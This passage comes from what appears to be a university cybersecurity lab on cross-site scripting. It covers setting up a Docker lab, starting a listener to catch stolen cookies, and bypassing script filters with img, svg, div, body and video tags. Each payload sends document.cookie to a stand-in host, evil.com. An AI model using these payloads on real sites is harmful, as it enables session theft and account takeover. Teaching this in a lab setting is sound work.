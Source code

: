 If you don't or cannot install Chrome browser (e.g., M1/M2 users), you can manually insert the cookie yourself to test the XSS attack working:

* Right-click on the browser page -> inspect -> Storage -> Cookies -> Add item -> modify the name and value to something that you can recognise later.

Similarly, if the bot isn't working as intended, you can insert the cookies manually.
{% endhint %}

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.xss_basic.yml
```

{% hint style="info" %}
M1/M2 users: you have to do the following 5 tasks:

1\. Run the amd64 emulator -\
`sudo docker run --privileged --rm tonistiigi/binfmt --install amd64`\
2\. Line 6 - change the image name to `uwacyber/cits3006:xss-server-no-csp-arm`

3\. Line 29 - change the image name to `arm64v8/mysql:8.0.30`

4\. Line 31 - change the platform to `linux/arm64`

5\. Remove the `xss-bot` service in the `yml` file (as described above, the bot works with the Chrome browser, which cannot be installed on ARM processors)
{% endhint %}

Run the Docker containers using the following command.

<pre><code><strong>sudo docker-compose -f docker-compose.xss_basic.yml up
</strong></code></pre>

Next, we will be running a basic HTTP server for receiving the exfiltrated cookie for the admin user. You can do this using the following command that will start the `python` HTTP server.

```
python3 -m http.server 80
```

Now, perform XSS to steal the server's document cookies.

### 5.2.3 Exploiting XSS Using Other HTML Tags

Sometimes a web application will have a filter implemented that removes `<script>` from the user input or the Content-Security-Policy has disabled inline execution of JavaScript code (discussed more in section 6.2.3). However, this filter is not sufficient to prevent an XSS attack since there are large number of other HTML tags that can also execute JavaScript. For example, the `<img>` tag has an `onerror` attribute that executes JavaScript code if an error occurs trying to load the image. So you can still trigger the XSS vulnerability with the following payload.

```html
<img src=x onerror="window.location='https://evil.com/?nomnom='+document.cookie" />
```

Below are a list of other XSS payloads using other HTML tags beside `<script>` and more listed [here](https://raw.githubusercontent.com/pgaijin66/XSS-Payloads/master/payload/payload.txt).

```html
<svg onload="window.location='https://evil.com/?nomnom='+document.cookie" />
<div onpointerover="window.location='https://evil.com/?nomnom='+document.cookie">MOVE HERE</div>
<body onload="window.location='https://evil.com/?nomnom='+document.cookie"></body>
<video src=_ onloadstart="window.location='https://evil.com/?nomnom='+document.cookie" />
```
